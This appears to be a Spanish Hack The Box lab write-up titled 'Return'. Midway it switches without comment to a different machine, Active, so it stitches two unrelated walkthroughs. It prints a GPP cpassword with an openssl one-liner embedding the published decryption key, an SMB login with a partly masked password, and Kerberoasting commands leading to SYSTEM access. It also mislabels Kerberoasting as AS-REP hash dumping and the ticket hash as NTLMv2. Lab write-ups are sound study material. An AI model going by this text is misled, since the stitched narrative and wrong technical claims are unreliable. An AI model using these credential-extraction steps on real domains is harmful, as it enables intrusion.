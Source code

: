 ```yaml
---
title: "Return HTB WriteUp"
layout: post
---
```

![Return HTB](/assets/images/Return 1.png)


<h2>Presentación</h2>
Return forma parte del Hack The Box printer track, junto a máquinas como Driver y Antique. La primera parte de la instrucción es muy sencilla es simplemente redirigir la ip o el (_FQDN_), que se encuentra apuntando a un url interno en el panel web y obtener credenciales de LDAP mientras te mantienes en escuchas por el puerto 389, luego en la fase de reconocimiento para  escalar privilegios vemos posibilidades de hacerlo abusando de SetBackupPrivilige or SetLoadDriverPrivilege, pero eso lo traeremos más adelante, en esta ocasión escalaremos privilegios a través del Server Operator Group, que es un privilegio con lo que cuenta el usuario, del cual obtuvimos credenciales en primer lugar.

<h2>Reconocimiento</h2>

En la fase de reconocimiento realizamos el siguiente network map, exportando el output en formato grep a un archivo llamado allports:
  
{% highlight bash %}
nmap -p- --min-rate 5000 10.10.11.108 -oG allports
{% endhighlight %}

**Output** 
[*] IP Address: 10.10.11.108

{% highlight bash %}
[*] Open ports: 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49697,59724
{% endhighlight %}

<h2>Puertos y Servicios</h2>
Por la cantidad de puertos y servicios involucrados luce comno un Domain Controller, puertos como 53, 88, DNS y Kerberos resepctivamente, servicos y puertos de RPC 135-139, 389 LDAP como mencionamos anteriormente. Ahora procederemos con ejecutar las opciones _sCV_ para reconocimiento básico de scripts para dichos puertos y servicios. 

{% highlight bash %}
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49697,59724 -sCV 10.10.11.108 -oN targeted
{% endhighlight %}

<h2> Servicio SMB 445 </h2>
Utilizando cramapexec smb y smbclient en la fase de reconocimiento, para saber frente a que estamos:

{% highlight bash %}
SMB    10.10.11.108    445    PRINTER    [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
{% endhighlight %}

La máquina se llama Printer, al parecer un Windows 10.0, la cual pertene al dominio _return.local_, que añadiremos a nuestro _/etc/hosts_.

```
smbclient -L 10.10.11.108 -N                                        
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.108 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
```
smbmap -H 10.10.11.108 -u 'null'
[!] Authentication error on 10.10.11.108
```
<h2> Servicio DNS 53 </h2>
```
nslookup 
> server 10.10.11.108
Default server: 10.10.11.108
Address: 10.10.11.108#53
> 10.10.11.108
;; connection timed out; no servers could be reached
```
Tampoco funcionó el ataque de trasferencia de zona a dicho servicio.

<h2>Servicio HTTP puerto 80</h2>

En la sessión de settings dentro del panel web, encontramos:

![Return HTB](/assets/images/Return 80.png)

Que como mencioné anteriormente es simplemente hacer que el server address se dirija a nuestra dirección ip de atacante.

![Return HTB](/assets/images/Return 81.png)

Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:

![Ative HTB](/assets/images/ggp.png)

también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} 
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 
{% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 

![Ative HTB](/assets/images/gpp.png)

**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _Kerberos pre-authentication deshabilidata_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.

![Ative HTB](/assets/images/hash.png)

y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 

![Ative HTB](/assets/images/psexec.png)

Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 

🖱️_by:_ *@DaVinciRoot*

[Hacking-Article]: https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0
